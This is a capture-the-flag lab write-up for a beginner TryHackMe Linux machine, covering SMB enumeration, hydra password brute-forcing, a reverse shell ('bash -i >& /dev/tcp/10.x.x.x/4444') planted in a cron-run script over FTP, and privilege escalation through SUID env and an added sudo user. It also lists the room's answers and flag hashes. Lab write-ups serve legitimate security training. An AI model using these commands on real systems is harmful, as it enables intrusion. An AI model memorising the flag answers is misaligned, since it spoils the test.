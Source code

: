 Anonymous
#########
:Author: David Boyd
:Date: 2020-11-22

[Task 1] Pwn
************

Try to get the two flags!  Root the machine and prove your understanding of the
fundamentals! This is a virtual machine meant for beginners. Acquiring both
flags will require some basic knowledge of Linux and privilege escalation
methods.

For more information on Linux, check out `Learn Linux
<https://tryhackme.com/room/zthlinux>`_

1. Enumerate the machine.  How many ports are open?
:Answer: 4

2. What service is running on port 21?
:Answer: FTP

3. What service is running on ports 139 and 445?
:Answer: SMB

4. There's a share on the user's computer.  What's it called?
:Answer: pics

Walkthrough
===========
:Reference: `SMB Enum Shares <https://bestestredteam.com/2019/03/15/using-smbclient-to-enumerate-shares/>`_

.. code-block:: Bash

	# enumerate SMB shares
	smbclient -L $TM

	# connect to share
	smbclient \\\\$TM\\pics

5. user.txt
-----------
:Answer: 90d6f992585815ff991e68748c414740
:Walkthrough: GOTO Reverse SHell

6. root.txt
-----------
:Answer: 4d930091c31a622a7ed10f27999af363
:Walkthrough: GOTO Privilege Escalation

Reconnaissance
**************

SMB Fun
=======

enum4linux
	a wrapper around the Samba tools: smbclinet, rpclient, net, and nmblookup.
	`enum4linux -A $TM` (Note: Does NOT identify vulns)

hydra
	`hydra -l namelessone -P /usr/share/wordlists/rockyou.txt smb -V -f -t 40`

nbtscan
	scan networks searching for NetBIOS information. `nbtscan $TM`

nmap scripts
	detect if SMB/Samba server is vulnerable to a RCE vuln. `nmap --script
	smb-vuln* -p 139,445 $TM` (Note: It's not; but there is a DOS)

nmblookup
	NetBIOS over TCP/IP client used to lookup NetBIOS names. `nmblookup -A $TM`

rpclient
	test MS-RPC functionality in Samba, manage Windows NT clients from UNIX
	workstations, and **open an authenticated SMB session w/ a NULL Session by
	entering username of ""**

.. code-block:: Bash

	# Connect to server
	rpcclient -U "" -N $TM
	# Enumerate users
	enumdomusers
		> user:[namelessone] rid:[0x3eb]
	# Query user to catch all kinds of information related to an individul user
	queryuser namelessone		# method 1
	queryuser 0x3eb      		# method 2

smbclient
	is a client that offers an interface similar to that of the FTP prgm that
	can 'talk' to an SMB/CIFS server.

.. code-block:: Bash

	# List shares
	smbclient -L $TM
	# Start smb session
	smbclient //$TM/<share>			# method 1
	smbclinet \\\\$TM\\<share>		# method 2

smbmap
	lists share drives, drive **permissions**, share contents, up/download
	functionality, file name auto-download pattern matching, and even execute
	remote commands.

.. code-block:: Bash

	smbmap -H $TM
	smbmap -H $TM -d <domainName(workgroup)> -u <userName> -p <password>

Reverse Shell
=============

.. code-block:: Bash

	## In FTP server
	ftp $TM 21					### NOTE: use 'lftp' from now on
	cd scripts
	get clean.sh				### NOTE: use 'lftp > edit'

	## In LHOST
	vim clean.sh
	# Replace then statement with reverse shell
	bash -i >& /dev/tcp/10.x.x.x/4444 0>&1
	# setup listener
	nc -nvlp 4444

	## In FTP server
	# Replace clean.sh with your reverse shell version
	put clean.sh

	## IN LHOST > nc
	# upgrade simple shell to a fully interactive ttys
	python -c 'import pty; pty.spawn("/bin/bash")'	# can be sketchy on this.$TM

	# GOTO CTF(1) user.txt

Privilege Escalation
====================

.. code-block:: Bash

	# Find our SUID files
	find / -perm /4000 2>/dev/null
		# files of particular interest
		/usr/bin/env

	# GOTO https://gtfobins.github.io/ -> env

	# Escalate Privs
	/usr/bin/env /bin/sh -p
	whoami

	# GOTO CTF(2) root.txt

Capture The Flag
================

.. code-block:: Bash

	# CTF users.txt
	ls
	cat users.txt

	# CTF users.txt
	find / -type f -name "root.txt" 2>/dev/null
	cat /root/root.txt

Other Fun Stuff
===============

useradd
-------
:Note: Doesn't work with cronjob script :(

.. code-block:: Bash

	# Add a user to sudoer group; password must be hashed!
	# useradd -g(roup) -p(assword-Hashed) <newUserName>
	sudo useradd -g sudo -p $( perl -e 'print crypt("student", "salt")') student

	perl -e 'print crypt("student", "salt")'
		> sa5hbTIQ04V26

lftp
----
:Purpose: You can use in-server editing of files!

lftp
	is a file transfer program that allows sophisticated FTP, HTTP and other
	connections to other hosts.

